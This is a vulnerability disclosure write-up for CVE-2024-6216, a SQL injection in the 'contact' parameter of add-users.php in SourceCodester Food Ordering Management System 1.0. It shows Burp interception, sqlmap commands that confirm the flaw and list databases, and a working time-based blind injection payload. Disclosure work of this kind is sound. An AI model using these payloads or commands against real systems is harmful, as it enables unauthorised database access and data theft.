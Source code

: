 ```yaml
---
title: CVE-2024-6216
draft: false
tags:
  - cve
---
```


# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-users.php)
## CVE-2024-6216

> A vulnerability classified as critical has been found in SourceCodester Food Ordering Management System 1.0. Affected is an unknown function of the file add-users.php. The manipulation of the argument contact leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-269280.

**Affected Project**: Sourcecodester Food Ordering Management System 1.0

**Official Website**: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Version: 1.0

Related Code file: add-users.php

Injection parameter: contact


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The contact parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on **Add** on the right bottom side, we can access add-user.php.

`http://172.16.76.1/foms/user.php`

![image](https://github.com/jadu101/CVE/assets/76433661/d0dfe8ac-c4a7-4659-8820-6badeaaf77e6)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/d0fb3ab7-30d9-4bf8-898e-96e8b2383110)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter contact is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-users-php.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/f3eeb76f-0be4-4d69-a3f2-b528be8ee3a3)

```
---
Parameter: contact (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=sdf&password=sdf&name=sdf&email=tese@sdf.cd&contact=123 AND (SELECT 5585 FROM (SELECT(SLEEP(5)))zByJ)&address=123&role=Customer&verified=0&deleted=0&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p contact --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/10add061-736f-40eb-a74d-9732f4ef6716)


